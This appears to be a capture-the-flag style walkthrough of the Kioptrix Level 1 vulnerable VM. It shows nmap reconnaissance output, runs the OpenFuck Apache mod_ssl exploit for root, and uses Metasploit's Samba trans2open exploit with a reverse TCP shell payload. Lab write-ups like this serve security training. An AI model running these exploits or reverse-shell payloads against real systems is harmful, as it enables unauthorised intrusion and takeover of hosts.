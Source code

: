# Kioptrix Level 1

### Contents
<!-- TOC -->
- [Footprinting](#footprinting)
- [Reconnaisance](#reconnaisance)
- [SSH](#ssh)
- [HTTP](#http)
- [RPC & filenet](#rpc--filenet)
- [NetBIOS](#netbios)
  - [Metasploit Exploitation](#metasploit-exploitation)

<!-- /TOC -->

# Footprinting
Find the IP address of the target host via:

```bash
netdiscover -r 10.0.0.0/24
```

For the purpose of this guide we will assume our target is at IP address **10.0.0.3**.

# Reconnaisance
```bash
nmap 10.0.0.3
```
```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
443/tcp   open  https
32768/tcp open  filenet-tms
MAC Address: 08:00:27:BC:A2:66 (Oracle VirtualBox virtual NIC)
```
Now we proceed by examining each of the services on the machine.

# SSH
```bash
nmap -A 10.0.0.3 -p 22
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey:
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
MAC Address: 08:00:27:BC:A2:66 (Oracle VirtualBox virtual NIC)
```

Analysis of the SSH version and some brute force attempts using hydra do yield any success.
However, it should be noted that the support of SSHv1 is strongly discouraged as it has inherent weaknesses.

# HTTP
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods:
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
```
Following this ```dirbuster``` was used to enumerate directories and locations.
No specific locations were found.

Analysis of the HTTPD version revealed the ```OpenFuck``` vulnerability was present.

```bash
./OpenFuck 0x6b 10.0.0.3
```

Find more details at: https://www.exploit-db.com/exploits/764.

This gives root once executed against the target.

# RPC & filenet
Neither of these services yielded much.

No vulnerabilities were found for either.

Port ```32768``` seemed to be associated to trojans, with little context.

# NetBIOS

We used Metasploit instead of enum4linux due to version detection bugs.

```powershell
msf auxiliary(scanner/smb/smb_version) > run
[*] 10.0.2.7:139          - Host could not be identified: Unix (Samba 2.2.1a)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/smb/smb_version) >
```
Based on the SAMBA version of **2.2.1a** the following was found: https://www.exploit-db.com/exploits/10.

## Metasploit Exploitation

Using msf we were able to gain root:

```
use exploit/linux/samba/trans2open

set payload linux/x86/shell/reverse_tcp
```
